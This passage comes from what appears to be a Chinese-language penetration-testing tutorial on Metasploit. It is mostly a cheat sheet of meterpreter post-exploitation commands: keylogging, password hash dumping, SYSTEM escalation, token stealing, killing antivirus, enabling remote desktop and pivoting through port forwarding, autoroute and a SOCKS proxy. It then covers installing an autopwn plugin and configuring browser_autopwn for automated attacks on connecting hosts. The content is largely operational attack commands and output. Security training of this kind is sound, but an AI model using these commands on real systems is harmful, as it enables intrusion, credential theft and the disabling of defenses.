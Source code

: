 ```
meterpreter &gt; ps 查看进程
meterpreter &gt; run post/windows/capture/keylog_recorder 键盘记录
meterpreter &gt; getuid 查看当前用户权限
meterpreter &gt; use priv 加载特权模块
meterpreter &gt; getsystem 提升到SYSTEM权限
meterpreter &gt; hashdump 导出密码散列
meterpreter &gt; ps 查看高权限用户PID
meterpreter &gt; steal_token &lt;PID&gt; 窃取令牌
meterpreter &gt; rev2self 恢复原来的令牌
meterpreter &gt; migrate pid 迁移进程
meterpreter &gt; run killav 关闭杀毒软件
meterpreter &gt; run getgui-e 启用远程桌面
meterpreter &gt; portfwd add -l 1234 -p 3389 -r &lt;目标IP&gt; 端口转发
meterpreter &gt; run get_local_subnets 获取内网网段信息
meterpreter &gt; run autoroute -s &lt;内网网段&gt; 创建自动路由
meterpreter &gt; run autoroute -p 查看自动路由表
创建代理通道:
msf &gt; use auxiliary/server/socks4a 设置socks4代理模块
msf auxiliary(socks4a) &gt; show options
msf auxiliary(socks4a) &gt; run
配置proxychains参数：
nano /etc/proxychains.conf 修改代理监听端口,和前面端口一致
quite_mode 设置成安静模式：去掉如下参数前面的注释

```

### 四：MSF实现自动化攻击

metasploit-autopwn是一个很强大的模块，能够让MSF实现对目标的全自动化渗透测试。<br/> 项目地址：<br/> [https://github.com/hahwul/metasploit-autopwn](https://github.com/hahwul/metasploit-autopwn)<br/> 1.安装metasploit-autopwn模块

```
cd /usr/share/metasploit-framework/plugins
git clone https://github.com/hahwul/metasploit-db_autopwn.git
cd metasploit-db_autopwn/
mv db_autopwn.rb /usr/share/metasploit-framework/plugins/

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/978325a271c870fcd25cbb443203eab8.jpeg"/><br/> 启动msf加载模块<br/> `load db_autopwn`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/c770ed0ef4d6fbd897a7be64c87fbd52.jpeg"/><br/> 如下可实现对任何连接到系统8000端口的目标进行自动化渗透攻击。

```
msf6 &gt; load db_autopwn
[*] Successfully loaded plugin: db_autopwn
msf6 &gt; use auxiliary/server/browser_autopwn
msf6 auxiliary(server/browser_autopwn) &gt; options

Module options (auxiliary/server/browser_autopwn):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   LHOST                     yes       The IP address to use for reverse-connect payloads
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. Thi
                                       s must be an address on the local machine or 0.0.0.0
                                       to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly
                                        generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

```